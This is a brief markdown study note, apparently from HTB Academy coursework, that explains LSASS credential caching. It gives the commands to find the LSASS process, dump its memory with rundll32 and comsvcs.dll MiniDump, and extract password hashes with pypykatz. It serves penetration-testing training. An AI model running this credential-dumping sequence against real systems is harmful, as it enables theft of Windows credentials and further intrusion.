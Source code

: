 # Attacking LSASS

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/50328b82-c010-46a7-af18-15c5516cb677)

Upon initial logon, LSASS will:

1) Cache credentials locally in memory
2) Create access tokens
3) Enforce security policies
4) Write to Windows security log

# Rundll32.exe & Comsvcs.dll Method
 First of all we have to find lsass pid
```bash
tasklist /svc
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/564013af-c946-4535-b81d-2bdce653888e)
We can see PID of lsass is `672`<br>
From powershell:
```bash
Get-Process lsass
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/8c135bc0-9a1f-44a2-a432-cdee2a4b815e)
<br>Once we have the PID assigned to the LSASS process, we can create the dump file.

From powershell:
```bash
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
and then we will transfer file to linux machine then we will use `pypykatz` to dump hashes:
```bash
pypykatz lsa minidump lsass.dmp
```
